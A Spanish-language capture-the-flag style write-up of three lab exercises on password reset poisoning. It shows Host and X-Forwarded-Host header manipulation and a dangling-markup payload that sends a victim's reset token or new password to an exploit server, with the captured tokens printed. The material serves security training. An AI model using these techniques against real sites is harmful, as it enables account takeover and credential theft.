# Password reset poisoning Laboratories

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

- The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

1. necesitamos un usuario con cuenta y propio. En este caso wiener

2. Restablecemos la contraseña de wiener y nos devuelve una url de reseteo de contraseña



```html
https://aaaa/forgot-password?temp-forgot-password-token=GCWdQObfKJqEMLZu477N9Xsuq5cu9fEq
```
3. Ponemos una contraseña que queramos
   

4. Vamos a la peticion post forgot-password, hay que tener cuidado porque me aparecen 2. La que vale es la que no tiene el token.

Cambiamos el host por otro cualquiera y vamos al servidor de explotación



5. Miramos que aparece el aaaa justo delante del host



6. Vamos a burp repeater y cambiamos el host al de nuestro collaborator y el nombre a carlos que es el que nos piden

7. Vaya a su servidor de explotación y abra el registro de acceso. Verá una solicitud GET /forgot-password con el temp-forgot-password-tokenparámetro que contiene el token de restablecimiento de contraseña de Carlos. Tome nota de esta ficha.

8rJonZpH98wLdG6l40OXqrJHamiKZB3v



8. Cogemos la url de restablecimiento del correo del punto 2. y sustituir el token.
https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=NaZhJ4oRUmyXaOByzuSDv02KQVfZsa4L


https://0ae2006b0354456ec0c1537600d50042.web-security-academy.net/forgot-password?temp-forgot-password-token=8rJonZpH98wLdG6l40OXqrJHamiKZB3v


## Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

En este caso no se puede hacer con el mismo host.. habría que probar

Inject host override headers

-   X-Forwarded-Host
-   X-Host
-   X-Forwarded-Server
-   X-HTTP-Host-Override
-   Forwarded

Es igual que el de antes

1. mandamos peticion de restablecimiento
2. capturasmos ese post
3. Este no podemos hacerlo mediante cambio de host porque está capado. Usamos x-forwarded-host y enviamos el servidor de explotacion y el cambio de nombre.



4. Miramos en el log



Cambiamos nuestra url de cambio de password vista en el punto 1 y añadimos el token wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx

https://0afc0050039b9ddec0cf6f3200d70039.web-security-academy.net/forgot-password?temp-forgot-password-token=wpwcdnsIEMktUSyK6BGBXy6tkX3JTwAx



## Lab: Password reset poisoning via dangling markup

This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.


Este tipo de ejercicios también es facil. En prinipio cuando hacemos la peticion de restablecimiento no nos devuelve un token por lo que por ese sitio no podemos ir.



En el cliente de correo electrónico, observe que tiene la opción de ver cada correo electrónico como HTML sin procesar. A diferencia de la versión renderizada del correo electrónico, este no parece estar desinfectado de ninguna manera.

Podemos observar que hace un satinize dom por lo que deberíamos de obtener la petición sin procesar



En el forgot pasword vemos que si cambiamos la url no funciona 



En los apuntes nos dicen que una forma de poder sobrepasar esto es poniendole un puerto, ponemos una cadena aleatoria para ver si funciona y luego poder usar cualquier cosa



Miramos el raw de la petición en el servidor de correos electronicos para ver el correo antes de ser procesado

```html
Sent:     2022-07-11 17:03:24 +0000
From:     no-reply@0ac9001304efba88c04e36db00330093.web-security-academy.net
To:       wiener@exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</a> to login with your new password: A0qMktlQf0</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

```
Aquí lo importante es lo siguiente

```html
<!--A partir del puerto hay que ver lo que pone. -->
https://0ac9001304efba88c04e36db00330093.web-security-academy.net:adafdfa/login'>click here</
```
La idea es cerrar y poner en el puerto lo que nosotros necesitamos.

```html
'<a href="//your-exploit-server-id.web-security-academy.net/?


exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net


'<a href="//exploit-0a75006f043cba5bc0b836ec01ff00e9.web-security-academy.net/?
```
Cambiamos el nombre también a carlos



Si hubiesemos hecho esto con wineer iría a correos además de al log, en este caso hemos puesto directamente carlos, así que vamos al log



BcLTY5O8rx

